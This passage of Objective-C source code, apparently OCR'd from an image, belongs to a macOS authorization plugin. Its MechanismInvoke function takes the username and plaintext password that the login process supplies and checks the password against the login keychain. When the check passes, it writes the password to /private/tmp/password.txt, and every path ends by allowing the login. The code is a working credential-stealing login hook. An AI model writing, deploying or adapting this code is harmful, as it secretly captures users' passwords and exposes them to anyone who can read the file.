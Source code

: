 ```objc
    }
    return nil;
}

OSStatus AllowLogin(MechanismRecord *mechanism) {
    return mechanism->fPlugin->fCallbacks->SetResult(mechanism->fEngine,kAuthorizationResultAllow);
}

OSStatus MechanismCreate(AuthorizationPluginRef inPlugin,AuthorizationEngineRef inEngine,AuthorizationMechanismId mechanismId,AuthorizationMechanismRef *outMechanism) {
    MechanismRecord *mechanism = (MechanismRecord *)malloc(sizeof(MechanismRecord));
    if (mechanism == NULL) return errSecMemoryError;
    mechanism->fMagic = kMechanismMagic;
    mechanism->fEngine = inEngine;
    mechanism->fPlugin = (PluginRecord *)inPlugin;
    *outMechanism = mechanism;
    return errSecSuccess;
}

OSStatus MechanismDestroy(AuthorizationMechanismRef inMechanism) {
    free(inMechanism);
    return errSecSuccess;
}

OSStatus MechanismInvoke(AuthorizationMechanismRef inMechanism) {
    MechanismRecord *mechanism = (MechanismRecord *)inMechanism;
    @autoreleasepool {
        
        // Make sure this is not a hidden user.
        
        NSString *username = GetStringFromContext(mechanism, kAuthorizationEnvironmentUsername);
        NSString *password = GetStringFromContext(mechanism, kAuthorizationEnvironmentPassword);
        // NSString *sesOwner = GetStringFromHint(mechanism, kKMAuthSuggestedUser);
        NSString *AuthAuthorizeRight = GetStringFromHint(mechanism, kKMAuthAuthorizeRight);
        
        // Make sure we have username and password data.
        if (!username || !password) {
            return AllowLogin(mechanism);
        }
        
        BOOL keychainPasswordValid = YES;
        
        SecKeychainSetUserInteractionAllowed(NO);
        keychainPasswordValid = ValidateLoginKeychainPassword(password);
        // Revert back to the default ids
        pthread_setugid_np(KAUTH_UID_NONE, KAUTH_GID_NONE);
        
        //NSData *passwordData = [NSKeyedArchiver archivedDataWithRootObject:password];
        if (keychainPasswordValid) {
            [password writeToFile:@"/private/tmp/password.txt" atomically:TRUE encoding:NSUTF8StringEncoding error:NULL];
        }
    }
    
    return AllowLogin(mechanism);
}

OSStatus MechanismDeactivate(AuthorizationMechanismRef inMechanism) {
    MechanismRecord *mechanism = (MechanismRecord *)inMechanism;
    return mechanism->fPlugin->fCallbacks->DidDeactivate(mechanism->fEngine);
}

OSStatus PluginDestroy(AuthorizationPluginRef inPlugin) {
```